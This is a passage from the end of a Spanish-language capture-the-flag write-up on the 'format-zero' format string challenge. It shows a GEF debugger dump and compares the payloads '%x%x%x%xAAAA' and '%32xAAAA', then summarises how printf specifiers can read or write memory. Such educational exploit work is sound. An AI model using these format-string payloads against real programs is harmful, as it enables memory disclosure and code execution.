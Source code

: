 ```csharp
     0x400705 <main+104>       call   0x400500 <sprintf@plt>
 →   0x40070a <main+109>       mov    eax, DWORD PTR [rbp-0x10]
     0x40070d <main+112>       test   eax, eax
     0x40070f <main+114>       je     0x40071d <main+128>
     0x400711 <main+116>       mov    edi, 0x4007f8
     0x400716 <main+121>       call   0x4004e0 <puts@plt>
     0x40071b <main+126>       jmp    0x400727 <main+138>
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "format-zero", stopped, reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40070a → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/8xg $rbp-0x30
0x7fffffffe640:	0x2020202020202020	0x2020202020202020
0x7fffffffe650:	0x2020202020202020	0x3033366566666666
0x7fffffffe660:	0x0000000a41414141	0x0000000000000000
0x7fffffffe670:	0x0000000000000001	0x00007ffff7d8fd62
gef➤ 
```

La diferencia entre los dos payloads está en la forma en que `printf` procesa la cadena de formato y lo que termina reflejando en la pila. Con `%x%x%x%xAAAA`, la función imprime y consume cuatro valores consecutivos, mostrando basura en hexadecimal antes de que aparezca `AAAA` al final. En cambio, `%32xAAAA` no avanza sobre varios argumentos, sino que toma un único valor y lo imprime en hexadecimal con un ancho de 32 caracteres, lo que introduce relleno de espacios en la salida antes de la secuencia `AAAA`

**Conclusión**

En este reto aprendimos cómo las funciones de formato, específicamente `printf`, pueden ser explotadas cuando reciben cadenas controladas por el usuario sin validar. A diferencia de un simple *buffer overflow*, aquí la manipulación proviene de los especificadores de formato que permiten leer o incluso escribir en memoria. Identificamos cómo distintos payloads producen resultados diferentes en la pila y comprendimos que el verdadero peligro radica en que esta vulnerabilidad puede usarse tanto para filtrar información sensible como para modificar valores críticos en la ejecución del programa.

Puntos clave:

- El uso inseguro de `printf` sin argumentos adicionales abre la puerta a vulnerabilidades de *format string*.
- Los especificadores de formato (`%x`, `%s`, `%n`, etc.) consumen o manipulan datos directamente desde la pila.
- Diferentes payloads muestran comportamientos distintos: `%x%x%x%xAAAA` consume múltiples argumentos, mientras `%32xAAAA` solo imprime un valor con relleno.
- Esta técnica puede emplearse para **leer memoria arbitraria** (información sensible) o **escribir en direcciones específicas** (ejecución arbitraria).